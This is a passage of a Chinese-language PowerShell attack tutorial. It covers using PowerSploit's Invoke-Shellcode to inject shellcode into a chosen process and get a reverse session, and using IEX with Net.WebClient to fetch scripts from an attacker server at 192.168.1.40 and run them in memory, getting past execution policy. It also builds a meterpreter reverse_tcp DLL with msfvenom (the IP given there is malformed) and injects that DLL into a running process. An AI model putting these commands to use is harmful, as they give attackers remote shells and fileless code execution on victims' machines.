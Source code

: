 执行

```
Invoke-Shellcode -Shellcode @($buf) -ProcessId 1076(要注入进程的id)
```



如果注入失败可以更换别的进程号

![](./powershell_image/7.png)

成功反弹会话
![](./powershell_image/p.png)

### 绕过限制策略导入ps模块并执行

##### 用IEX远程下载PS1脚本绕过权限执行

文件不落地，直接将远程服务器的ps脚本导入到目标服务器的内存中

```
类似于:远程文件包含
iex(New-Object Net.WebClient).DownloadString("http://192.168.1.40:9090/PowerSploit-master/CodeExecution/Invoke-DllInjection.ps1")

iex(New-Object Net.WebClient).DownloadString("http://192.168.1.40:9090/Invoke-DllInjection.ps1")


msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.1690 lport=1180  -f dll -o /root/桌面/3.dll

Invoke-DllInjection -ProcessID 1056 -Dll http://192.168.1.40:9090/1.dll
Invoke-DllInjection -ProcessID 1056 -Dll 1.dll
```

##### 本地隐藏绕过权限执行脚本

